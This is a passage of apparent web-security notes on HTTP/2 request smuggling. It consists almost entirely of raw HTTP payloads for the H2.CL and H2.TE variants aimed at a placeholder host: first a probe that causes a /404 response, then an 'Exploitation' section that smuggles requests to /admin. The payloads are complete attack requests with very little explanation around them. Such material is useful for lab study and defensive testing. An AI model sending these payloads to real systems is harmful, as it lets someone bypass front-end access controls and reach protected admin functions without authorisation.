 ```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Length: 0

GET /404 HTTP/1.1
Foo: x
```

Then send another request and you'll get `/404` .

### H2.TE

```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Host: vulnerable-website.com
Foo: x
```

---

## Exploitation

### H2.CL

```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Length: 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 5

x=1
```

### H2.TE

```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: x
```

---